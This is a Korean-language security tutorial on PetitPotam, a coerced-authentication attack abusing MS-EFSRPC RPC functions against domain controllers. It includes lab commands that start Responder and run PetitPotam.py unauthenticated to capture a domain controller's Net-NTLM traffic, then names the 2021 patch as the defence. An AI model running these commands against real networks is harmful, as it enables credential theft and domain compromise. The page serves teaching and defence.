

# MS-EFSRPC - Petitpotam




MS-EFSRPC RPC 함수들은 원격 호스트의 파일을 암호화하고 백업을 도와주기 위해서 만든 RPC이다.&#x20;

2021년 7월경 [@topotam](https://github.com/topotam) 이라는 해커가 MS-EFSRPC 와 관련된 RPC 함수들 중 몇가지가 강제 인증에 취약하다는 사실을 발견했다. 또한, 몇 몇 RPC 함수들은 도메인 유저 인증이 아예 필요없이 강제 인증이 가능했다. 마지막으로, 모든 도메인 컨트롤러들이 취약한 상태에 놓여있었다. Topotam은 이 강제 인증 공격을 "PetitPotam" 이라고 이름을 붙였다.&#x20;

### 실습&#x20;

Petitpotam 과 자주 쓰이는 공격은 ADCS - ESC8 페이지에서 정리한다. 이 실습에서는 간단하게 Petitpotam 을 이용해서 도메인 컨트롤러의 NTLM 인증 트래픽을 받는다. 사용할 Petitpotam.py 툴은 [여기서 다운](https://github.com/topotam/PetitPotam) 받는다.&#x20;

1. NTLM 인증 트래픽을 받을 Responder 세팅&#x20;

```
responder -I <NIC> -v 
responder -I eth1 -v 
```

2\. Unauthenticated Petitpotam 을 이용해 유저 계정 없이 Petitpotam 공격&#x20;

```
python3 Petitpotam.py <공격자 IP> <타 IP> 
python3 PetitPotam.py 192.168.40.182 192.168.40.160
```

공격 결과 확인&#x20;

 (2).png>)

3\. Responder 를 통해서 도메인 컨트롤러의 Net-NTLM 인증 트래픽 확인&#x20;

 (2).png>)

### 대응 방안&#x20;

Petitpotam 과 관련된 [패치](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)는 2021년 8월달에 발표됐다. 패치를 적용하면 유저 인증이 필요한 Petitpotam이나 필요없는 Petitpotam이나 모두 통하지 않는다.&#x20;


### 레퍼런스&#x20;




